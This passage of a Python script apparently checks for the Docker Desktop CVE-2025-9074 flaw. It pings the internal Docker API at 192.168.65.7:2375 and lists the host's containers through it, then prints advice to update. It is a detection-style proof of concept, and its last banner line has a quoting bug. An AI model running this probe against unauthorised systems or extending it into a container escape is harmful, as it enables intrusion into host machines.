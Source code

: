 ```python
            # List existing containers
            print("\n[*] Step 3: Enumerating containers...")
            containers_response = requests.get(f"{base_url}/containers/json?all=1", timeout=5)
            
            if containers_response.status_code == 200:
                containers = containers_response.json()
                print(f"[+] Found {len(containers)} containers on system")
                for container in containers[:3]:  # Show first 3
                    print(f"    - {container['Names'][0]} ({container['State']})")
            
            print(f"\n[!] CRITICAL: System is vulnerable to CVE-2025-9074")
            print(f"[!] Containers can access Docker API with full privileges")
            print(f"[!] Immediate update to Docker Desktop 4.44.3+ required")
            
            return True
            
        else:
            print("[-] API endpoint not accessible or returned unexpected response")
            return False
            
    except requests.exceptions.ConnectionError:
        print("[-] Cannot connect to Docker API - system may be patched")
        return False
    except requests.exceptions.Timeout:
        print("[-] Connection timeout - API may be filtered or unavailable")
        return False
    except Exception as e:
        print(f"[-] Error during testing: {str(e)}")
        return False

def test_network_access():
    """Test if container can reach the Docker daemon network"""
    target_ip = "192.168.65.7"
    
    print(f"\n[*] Testing network connectivity to {target_ip}...")
    
    try:
        # Simple connectivity test
        response = requests.get(f"http://{target_ip}:2375/_ping", timeout=2)
        print("[+] Network path to Docker daemon confirmed")
        return True
    except:
        print("[-] Cannot reach Docker daemon network")
        return False

if __name__ == "__main__":
    print("=" * 60)
    print("CVE-2025-9074 Vulnerability Test")
    print("FOR EDUCATIONAL/TESTING PURPOSES ONLY")
    print("=" * 60)
    
    # Test network connectivity first
    if test_network_access():
        # Run full vulnerability test
        vulnerable = test_vulnerability()
        
        if vulnerable:
            print(f"\n{'='*60}")
            print("VULNERABILITY CONFIRMED - IMMEDIATE ACTION REQUIRED")
            print("1. Update Docker Desktop to version 4.44.3 or later")
            print("2. Review container logs for signs of exploitation")
            print("3. Audit any containers from untrusted sources")
            print("='*60}")
```